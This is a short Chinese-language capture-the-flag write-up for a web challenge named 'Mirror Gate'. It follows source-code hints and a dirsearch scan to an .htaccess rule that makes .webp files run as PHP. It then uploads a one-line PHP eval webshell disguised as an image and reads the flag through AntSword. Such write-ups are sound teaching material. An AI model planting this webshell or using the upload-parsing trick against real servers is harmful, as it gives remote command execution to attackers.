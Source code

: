 # Mirror Gate

## 收集信息

访问网站，<kbd>F12</kbd> 查看前端源码发现

```html
<!-- flag is in flag.php -->
<!-- HINT: c29tZXRoaW5nX2lzX2luXy91cGxvYWRzLw== -->
```

base64 解码 HINT：`something_is_in_/uploads/`

随便上传一张图片，跳转到成功页面，源码中提示

```html
<!--dirsearch-->
```

## 解题流程

用 dirsearch 扫描 ip:端口/uploads 发现 `.htacccess` 文件，访问显示:"AddType application/x-httpd-php .webp"

这说明: 上传的 webp 文件会被解析成 php 文件

接下来上传 webp 一句话木马，利用解析漏洞让我们的 .webp 解析成 .php，从而绕过检查

shell.webp 内容：

```php
<?php @eval($_POST['cmd']); ?>
```

蚁剑连接 webshell 输入 cat /flag.php 得到 flag
